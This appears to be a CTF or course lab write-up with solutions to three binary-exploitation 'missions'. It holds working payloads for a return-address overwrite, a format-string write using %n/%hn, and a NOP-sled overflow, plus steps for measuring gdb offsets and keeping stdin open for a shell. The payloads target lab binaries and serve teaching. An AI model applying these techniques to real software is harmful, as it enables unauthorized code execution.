 # PWN
--

## First exploit - Mission 0: Ooh Easy

#### solution 1 (Exerciser Syle)
```bash
./mission0 < <(python -c "import sys;sys.stdout.write('\x3d\x07\x01\x01' + 'A'*8 + '\xab\x85\x04\x08')")
```
#### solution 2 (Personal Style)
```bash
./mission0 < <(python -c "print('\x3d\x07\x01\x01' + 'A'*8 + '\xab\x85\x04\x08')" )
```
<br><br>

## Second exploit - Mission 1: Aye Captain!

#### Step 1 - gdb n00b sol 
```bash
set args < <(python -c 'print"\x70\xd0\xff\xff" + "%134513911c" + "%4$n"')
```
#### Step 2 - gdb pro sol
```bash
set args < <(python -c 'print"\x72\xd0\xff\xff\x70\xd0\xff\xff%2044c%4$hn%31991c%5$hn"')
```

#### Step 3 - gdb pro sol [on necst machine]
```bash
set args < <(python -c 'print"\xa2\xc5\xff\xff\xa0\xc5\xff\xff%2044c%4$hn%31991c%5$hn"')
```

#### Step 4 - Road to clean sol [on necst machine]
let's find the offset on the stack due to gdb, just run the executable with this input on the shell with and without gdb. the offset will be [ADDR GDB] - [ADDR]
```bash
%22$x
```
#### Step 5 - clean sol [on necst machine]
```bash
./mission1 < <(python -c 'print"\xd2\xc5\xff\xff\xd0\xc5\xff\xff%2044c%4$hn%31991c%5$hn"') 
```

#### Step 6 - save the exploit on a file
```bash
(python -c 'print"\xd2\xc5\xff\xff\xd0\xc5\xff\xff%2044c%4$hn%31991c%5$hn"') > exploit
```

#### Step 7 - drop tha bomb, just create a file with the python script called exploit, and send to our executable ( - is for keep STDIN open)
```bash
cat exploit - | ./mission1
```
<br><br>

## Third exploit - Mission 2: Birdwatching
```bash
./mission2 < <(python -c "import sys; sys.stdout.write('AAAA' + '\x00' + '\x90'*140 + 'AAAA' + '\x00')")
```

<br><br>

